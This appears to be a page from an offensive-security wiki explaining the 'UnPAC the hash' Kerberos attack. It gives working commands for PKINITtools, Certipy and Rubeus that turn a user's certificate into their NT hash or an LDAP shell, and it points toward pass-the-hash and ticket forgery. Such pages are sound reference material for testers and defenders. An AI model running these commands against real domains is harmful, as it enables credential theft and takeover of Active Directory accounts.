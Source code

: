 # UnPAC the hash

## Theory

When using PKINIT to obtain a TGT (Ticket Granting Ticket), the KDC (Key Distribution Center) includes in the ticket a `PAC_CREDENTIAL_INFO` structure containing the NTLM keys (i.e. LM and NT hashes) of the authenticating user. This feature allows users to switch to NTLM authentications when remote servers don't support Kerberos, while still relying on an asymmetric Kerberos pre-authentication verification mechanism (i.e. PKINIT).

The NTLM keys will then be recoverable after a TGS-REQ through U2U which is a Service Ticket request made to the KDC where the user asks to authenticate to itself ([User-to-User authentication](http://www.di-srv.unisa.it/\~ads/corso-security/www/CORSO-0001/kerberos/ref/kerberos-faq.html#u2uauth)).

The following protocol diagram demonstrates how UnPAC-the-hash works. It allows attackers that know a user's private key, or attackers able to conduct a [Shadow Credentials](shadow-credentials.md) attacks, to recover the user's LM and NT hashes.

![](../../../.gitbook/assets/UnPAC-the-hash.png)

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, this attack can be conducted with [PKINITtools](https://github.com/dirkjanm/PKINITtools) (Python).

The first step consists in obtaining a TGT by validating a PKINIT pre-authentication first.

```python
gettgtpkinit.py -cert-pfx "PATH_TO_CERTIFICATE" -pfx-pass "CERTIFICATE_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
```

Once the TGT is obtained, and the session key extracted (printed by gettgtpkinit.py), the getnthash.py script can be used to recover the NT hash.

```bash
export KRB5CCNAME="TGT_CCACHE_FILE"
getnthash.py -key 'AS-REP encryption key' 'FQDN_DOMAIN'/'TARGET_SAMNAME'
```

The NT hash can be used for [pass-the-hash](../ntlm/pth.md), [silver ticket](forged-tickets/#silver-ticket), or [Kerberos delegations](delegations/) abuse.

{% hint style="info" %}
If you have this error:**`KDC_ERR_PADATA_TYPE_NOSUPP`**when requesting PKINIT, it may be an indication that your targeted KDCs do not have certificates with the necessary EKU (Extended Key Usages). \
More specificly, If a KDC must support smart card logon, its certificate must have the `Smart Card Logon` EKU\
\
**You can use your certificate to logon on LDAPS via Schannel**
{% endhint %}

Authentication via Schannel is supported by [certipy-ad](https://github.com/ly4k/Certipy):

```bash
certipy auth -pfx administrator.pfx -username 'administrator' -domain 'contoso.local' -ldap-shell -ldap-scheme ldaps -dc-ip $DC_IP
[*] Connecting to 'ldaps://10.10.10.10:636'
[*] Authenticated to '10.10.10.10' as: u:CONTOSO.LOCAL\Administrator
Type help for list of commands

# help
```
{% endtab %}

{% tab title="Windows" %}
From Windows systems, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used to requesting a ticket using a certificate and use `/getcredentials` to retrieve the NT hash in the PAC.

```bash
Rubeus.exe asktgt /getcredentials /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://shenaniganslabs.io/2021/06/21/Shadow-Credentials.html" %}

{% embed url="https://www.sstic.org/2014/presentation/secrets_dauthentification_pisode_ii__kerberos_contre-attaque/" %}
